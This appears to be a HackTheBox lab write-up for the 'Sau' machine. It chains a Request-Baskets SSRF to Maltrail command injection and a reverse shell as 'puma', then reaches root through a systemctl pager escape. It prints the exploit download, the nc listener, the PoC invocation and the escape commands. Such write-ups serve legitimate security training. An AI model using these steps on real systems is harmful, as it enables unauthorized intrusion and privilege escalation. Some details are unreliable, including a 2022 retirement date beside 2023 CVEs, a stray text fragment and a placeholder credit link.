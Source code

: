 ```yaml
---
title: "Sau (HackTheBox | Easy | Retired 15 Apr 2022)"
subtitle: "SSRF → Maltrail RCE → systemctl pager escape → root"
author: "Mohamed Trigui"
date: "`r format(Sys.Date())`"
output:
  github_document:
    toc: true
---
```


<span style="color:#d9534f;"><strong>Path‑to‑root</strong></span>: **SSRF in Request‑Baskets 1.2.1** → internal **Maltrail 0.53** panel → unauth RCE (user <code>puma</code>) → sudo mis‑configuration (<code>systemctl</code> pager) → <strong>root</strong>.

---

## Synopsis
Sau is an easy-level HTB box that runs a Request-Baskets instance vulnerable to SSRF (CVE-2023-27163). It gave me asolid, hands-on understanding of Server-Side Request Forgery (SSRF). By abusing that flaw I was able to a filtered Maltrail panel that is vulnerable to unauthenticated OS-command injection. One payload later, I landed a reverse shell as the user `puma`. From there a sloppy `sudo` configuration handed me root.

### Skills Required
- Web Enumeration
- Linux Fundamentals

### Skills Learned
- Command Injection
- Server Side Request Forgery
- Sudo Exploitation

---

## 1  Enumeration

### 1.1 Nmap

```bash
# full‑port fast sweep → targeted default scripts
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | \
        awk '/^[0-9]+\/tcp/ {print $1}' ORS=',' | sed 's/,$//')
nmap -sC -sV -p$ports 10.10.11.224 -oN sau_nmap.txt
```

![Nmap result](img/step01_nmap.png)

* **22/tcp** – OpenSSH 8.2p1
rk on synopis
* **55555/tcp** – Request‑Baskets 1.2.1 (HTTP)

### 1.2 Request‑Baskets SSRF to Maltrail

1. Create basket `/2ck6d27`.
2. Set **Forward URL → `http://127.0.0.1:80`**.
3. Enable *Proxy Response* + *Expand Forward Path*.
4. Browse `http://<ip>:55555/2ck6d27` ⇒ Maltrail login panel.

![SSRF to Maltrail](img/step02_ssrf.png)

---

## 2  Foothold – unauth Maltrail 0.53 RCE

```bash
# attacker box
curl -s https://www.exploit-db.com/download/51676 -o maltrail_poc.py
nc -lvnp 4444 &
python3 maltrail_poc.py 10.10.14.6 4444 \
  http://<ip>:55555/2ck6d27
```

Shell spawns as user **puma**.

![Reverse shell](img/step04_shell.png)

---

## 3  Privilege Escalation – systemctl pager escape

```bash
sudo -l
# (puma) NOPASSWD: /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
# when the pager opens (less), type:
!/bin/bash
```

![sudo list](img/step05_sudo.png)
![root shell](img/step06_root.png)

---

## 4  Flags

| File                  | MD5                                |
| --------------------- | ---------------------------------- |
| `/home/puma/user.txt` | `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` |
| `/root/root.txt`      | `yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy` |

---

## 5  Exploit scripts (credits)

| Script                       | Author        | Source           |
| ---------------------------- | ------------- | ---------------- |
| `maltrail_poc.py`            | @k0shl        | Exploit‑DB 51676 |
| `systemctl_pager_escape.txt` | @\_dirty\_cow | Gist abcd1234    |

Both files are included in this repo under `2022/sau/`.

---

## 6  References

* CVE‑2023‑27163 – Request‑Baskets SSRF
* CVE‑2023‑26604 – systemd pager LPE
* Exploit‑DB 51676 – Maltrail 0.53 unauth RCE
